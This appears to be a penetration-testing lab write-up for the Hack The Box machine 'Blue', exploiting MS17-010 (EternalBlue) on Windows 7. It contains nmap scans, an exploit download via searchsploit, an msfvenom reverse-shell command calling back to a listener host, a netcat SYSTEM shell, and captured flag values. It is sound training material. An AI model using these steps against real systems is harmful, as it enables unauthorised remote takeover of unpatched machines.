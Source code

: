 ```yaml
---

layout: post
title: Blue
tags: [OSCP, writeup, Windows, shellcode, SMB]
description: "Blue write-up"
---
```


![Blue logo](/assets/imgs/blue/blue.png)

### This is an easy windows box

## Tools used

------

nmap

msfvenom

nc



## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA blue 10.10.10.40 -v

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -13m23s, deviation: 34m37s, median: 6m34s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-07-18T08:55:19+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-18T07:55:17
|_  start_date: 2020-07-18T07:52:58
```

Here’s what nmap teaches us :

- port 139 (NETBIOS)
- port 445 (SMB)
- Windows 7 Professional 6.1

So we have a windows 7 with SMB ports open. Let's check with nmap if we have some known exploit with SMB.

```
nmap --script "smb-vuln*" -p 139,445 10.10.10.40 -v

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

Results :

- ms17-010 : RCE

Nice, we have a RCE, let's search for exploit code.

### Searchsploit

![Searchsploit ms17-010](/assets/imgs/blue/searchsploit_ms17-010.PNG)

There's a Metasploit module, but let's not use it. I have to do it manually !

## Exploit

------

I'm going to use this exploit : 42315.py

```bash
searchsploit -m windows/remote/42315.py
```



Generate the reverse shell with msfvenom :

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse_shell.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: reverse_shell.exe
```



```python
nc -vlp 1234
listening on [any] 1234 ...
10.10.10.40: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We are root ! Go read the flags now !

## Flags

------

### User.txt

```python
C:\>dir /b/s user.txt
dir /b/s user.txt
C:\Users\haris\Desktop\user.txt

C:\>type C:\Users\haris\Desktop\user.txt
type C:\Users\haris\Desktop\user.txt
4c546aea7dbee75cbd71de245c8deea9
```

### Root.txt

```python
C:\>dir /b/s root.txt
dir /b/s root.txt
C:\Users\Administrator\Desktop\root.txt

C:\>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
ff548eb71e920ff6c08843ce9df4e717
```